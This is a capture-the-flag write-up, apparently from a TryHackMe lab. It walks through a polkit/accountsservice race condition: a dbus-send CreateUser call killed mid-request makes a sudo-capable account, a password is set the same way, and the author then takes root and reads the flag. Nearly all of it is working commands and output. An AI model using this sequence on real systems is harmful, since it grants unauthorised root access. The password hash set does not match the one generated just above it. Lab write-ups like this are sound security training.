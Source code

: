 We start by timing how long it takes to send a request to the accounts daemon to create a new account. Obviously, we don't have the privileges to do so, so the system will not let this command execute fully.
```shell
tryhackme@polkit:~$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real	0m0.013s
user	0m0.002s
sys	0m0.001s
```

Knowing it takes ~13 ms to send, we can kill the message around half way to create the user. I used 5ms because I knew it would work according to the room, but this may vary from system to system.
```shell
tryhackme@polkit:~$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
[1] 1221
tryhackme@polkit:~$ id attacker
uid=1000(attacker) gid=1000(attacker) groups=1000(attacker),27(sudo)
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Now that we have a user account on the system, we can set the password by running a fairly similar command. We use `openssl` to generate the password, and then do the exact same `sleep` + `kill` combo.
```shell
tryhackme@polkit:~$ openssl passwd -6 Expl01ted
$6$Rx/sHu1M9CDI6FLK$ZHR7m1cxl/NyXxRcjJmNJgM6y79if4xVVBB7CFDaZ4pr9JJZ7vU/E32rxYz6U1r3pskGPfxKxXOOKVNkiNDYB/
tryhackme@polkit:~$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
[1] 1258
```

After this, we can use our new password to login as the `attacker` user. SInce it was created by root, it just has the `sudo` privileges to begin with (unless I misunderstood something), and we can read the flag.
```shell
tryhackme@polkit:~$ su attacker
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

attacker@polkit:/home/tryhackme$ sudo -l
[sudo] password for attacker: 
Matching Defaults entries for attacker on polkit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User attacker may run the following commands on polkit:
    (ALL : ALL) ALL
attacker@polkit:/home/tryhackme$ sudo su
root@polkit:/home/tryhackme# cat /root/root.txt
BDN7EHDcmso=-N5HMV39gdAqpdAGw-csqSrYXsfjYr/yw+2Cihqx08xOnysI3kSTjRw2I6kMac7WdfXNNs/A==
```
<sup>The reason the flag looks weird is because this was the first (and last?) time they tried to implement dynamic flags.</sup>
